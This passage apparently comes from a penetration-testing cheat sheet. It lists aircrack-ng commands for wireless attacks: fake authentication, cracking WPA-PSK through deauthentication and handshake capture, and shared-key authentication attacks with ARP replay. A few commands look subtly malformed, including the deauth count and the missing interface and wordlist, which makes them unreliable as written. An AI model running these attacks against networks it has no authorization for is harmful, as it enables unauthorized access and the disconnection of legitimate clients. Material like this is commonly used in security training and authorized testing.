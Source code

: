 Fake Authentication Attack on AP:

```text
aireplay-ng -1 0 -e <AP ESSID> -a <MAC Address of AP> -h <MON MAC Address> mon0
```

## Crack WPA-PSK

Monitor Mode:

```text
airmon-ng start wlan0 <AP Channel Number>
```

Airodump Capture of Traffic:

```text
airodump-ng -c <AP Channel> --bssid <AP MAC> -w <filename> mon0
```

De-Auth Client:

```text
aireplay-ng --deauth -11 -a <AP MAC>
```

Crack Password:

```text
aircrack-ng -a 2 -w capture
```

## Fake Shared Key Authentication Attack

Monitor Mode:

```text
airmon-ng start wlan0 <AP Channel Number>
```

Airodump Capture of Traffic:

```text
airodump-ng -c <AP Channel> --bssid <AP MAC> -w <filename> mon0
```

PRGA Capture Deauthentication Attack against connected client:

```text
aireplay-ng -0 1 -a <AP MAC> -c <Client MAC> mon0
```

Shared Key Fake Auth with PRGA File:

```text
aireplay-ng -1 60 -e <AP ESSID> -y <PRGA Filename> -a <AP MAC> -h <OurMAC> mon0
```

ARP Request Replay Attack:

```text
aireplay-ng -3 -b <AP MAC> -h <Our MAC> mon0
```
